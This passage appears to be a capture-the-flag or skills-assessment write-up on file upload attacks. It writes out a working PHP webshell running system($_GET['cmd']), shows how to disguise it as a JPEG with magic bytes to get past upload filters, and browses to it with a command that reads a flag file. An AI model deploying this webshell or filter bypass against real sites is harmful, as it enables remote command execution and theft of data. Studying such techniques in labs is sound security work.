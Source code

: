 >Create PHP webshell with mime-type to bypass filters. 

>Create following file as `shell.phar.jpeg` in Linux Mousepad editor.  

```
AAAA
<?php echo system($_GET["cmd"]);?>
```  

>Change MIME type using `hexeditor` and enter the magic numbers by replacing the `AAAA` values.
>Magic MIME Type bytes for JPEG = `FF D8 FF DB`  

![upload-skills-assess-hexeditor](/images/upload-skills-assess-hexeditor.png)  

>Upload the modified webshell file to target.  

![upload-skills assess webshell](/images/upload-skills-assess-webshelll.png)  

>Once the image webshell file upload browse to it at, `http://1.2.3.4/contact/user_feedback_submissions/230723_shell.phar.jpeg?cmd=cat+/flag.txt` to obtain the flag.  

![upload-skills-assess-flag](/images/upload-skills-assess-flag.png)  
